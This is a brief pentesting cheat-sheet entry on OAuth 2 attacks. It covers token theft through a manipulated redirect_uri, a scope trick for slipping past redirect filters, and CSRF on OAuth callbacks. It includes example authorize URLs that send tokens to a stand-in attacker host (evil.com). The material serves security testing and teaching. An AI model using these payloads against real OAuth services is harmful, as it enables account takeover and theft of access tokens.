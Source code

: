 # OAuth 2

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token.

```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that "redirect_uri" can’t be pointed to an Open Redirect

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (https://example.com/callback?code=AUTHORIZATION_CODE). This URL can be used in CSRF attacks.

## Resources

| URL |
| --- |
| https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover |
| https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/ |

## Mindmap

![OAuth2 mindmap](/oauth2_mindmap.jpeg)


